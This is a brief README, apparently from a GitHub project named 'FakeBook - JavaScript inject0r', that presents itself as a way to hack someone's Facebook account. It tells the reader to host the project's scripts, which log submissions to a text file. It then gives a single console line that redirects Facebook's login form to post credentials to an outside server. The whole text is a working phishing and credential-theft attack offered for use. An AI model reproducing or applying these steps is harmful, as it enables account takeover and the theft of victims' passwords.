 # FakeBook - JavaScript inject0r
Hack Someone Facebook With JavaScript inject0r (Social Engineering)

Upload All the scripts from <strong>https://github.com/aghanathan/FakeBook</strong> into your Web Hosting (e.g. <b>'/public_html/FakeBook'</b>)
It Will Create a text file ('log.txt') (e.g. <b>http://gofreelancer.xyz/FakeBook/log.txt</b>)

<h3><u>How To Inject & use JavaScript to change the form action</u></h3>
<ul>
  <li>Open <strong>https://www.facebook.com</strong> with <b>Google Chrome</b> Browser</li>
  <li>Right-click on any page element and select <b>Inspect Element</b> and then <b>Console</b></li>
  <li>Copy & Paste (<b>Crtl+V</b>) this a line Javascript:<br>
    <code>document.getElementById('login_form').action = 'http://gofreelancer.xyz/FakeBook/login.php';</code>
  </li>
</ul>
